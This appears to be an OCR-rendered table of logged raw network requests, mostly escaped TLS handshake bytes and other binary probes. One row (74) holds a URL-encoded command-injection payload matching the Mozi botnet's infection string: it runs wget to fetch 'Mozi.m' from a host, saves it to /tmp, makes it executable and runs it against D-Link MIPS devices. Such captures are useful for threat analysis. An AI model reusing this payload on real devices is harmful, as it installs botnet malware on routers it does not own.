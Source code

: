 |  71 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\x11V\xC5K\xA8O\xB5Y\x1A\x9F9\xEE\x97\x09\x95\xD2\x9C$\x1A\xA3\xE7\xE9\x88\x9Ec\x8A%\xC3\x8D\xB1e1 +\xE3\xAC\x0E\x81\x97\xDF\xEC\x9F\xF0y\xBBz}\x02\xC0\xB4\x7FM\x9F\xF48\x00`\xAC\x95,~\xD5i\xDD\xDA\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                     |
|  72 |                     1 | l\x00\x0B\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                    |
|  73 |                     1 | \x00\x0C\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                         |
|  74 |                     1 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                            |
|  75 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xC2|\xD7\x84Yy\xC3\xAD\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                   |
|  76 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xAAm}\x12_zW1Y\xB9\x84\x05pA\xB6k0c\xF9MK<\xAFc+\xEF\xC8\xDD\x8D\xED\xE9\xB0\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                            |
|  77 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x8F\x04\x01\xC9\xDD\x06\xCA\xD5k3T\x83\xEC(\xF8\xF6\xE5O\x16\x10\xBF\xA4Eh2u'\x9B\xC1\x15\x9Fj\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |
|  78 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03&C\x1B\xD8\xBA=<}(o\xB1\xF0Ux\x03\xE5\x9C\x8C\xB0\x86\xA6\x84\xC3\x05V\xF6*O\xF1\x8B\xC3\x93\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
|  79 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xBC\x0EF\xFD&\x12`?\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                      |
|  80 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03M\xE7\x02|\x8E\xFErj\xB1\xCF\xD7\xEE\xB7\xB5c\x99>U\xA5\xB57\xFD\x8B\xB5\x95\xDCW\x86K\xDD\xA6\xEA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                       |
|  81 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xD7+7z7\x13\x12\xFD\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                      |
|  82 |                     1 | \xBD\xFF\x9E\xFFE\xFF\x9E\xFF\xBD\xFF\x9E\xFF\xA4\xFF\x86\xFF\xC4\xFF\xBE\xFF\xC7\xFF\xDB\xFF\xEE\xFF\xD9\xFF\xED\xFF\xA4\xFF\x9D\xFF\xCF\xFF\xD8\xFF\xE5\xFF\x04\xFF\x12\xFF0\xFF\xB1\xFF\xBD\xFF\xE7\xFF\xE2\xFF\xDD\xFF\xDC\xFF\xDE\xFF\xC8\xFF\xCC\xFF\xBE\xFF\xF8\xFF&\xFF\x01\xFF\x0F\xFF\xF5\xFF\x06\xFF\xFF\xFF\xF7\xFF!\xFF\xDE\xFF\x02\xFF&\xFF\x0C\xFF\x01\xFF\xF5\xFF                                |
|  83 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03z\xF2)\xFC\xA4'\xF6\xF4\x896\xF0\x84\xFA7\xD0\xCBQ\xFD\x9E\x9C\xE7O\xC1D\x83\x09\xE6\xB7\xE0\x83\xBD* \xEB!\xAB!\xE8%\x08-\xAC\xA3\x096\xB0\x04C\xDF\x1E\x0C\xF8\xDD\xEAk\xBE\x81\x8D\xDA\x1C\xEFF\xFF\x10\xD9\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                            |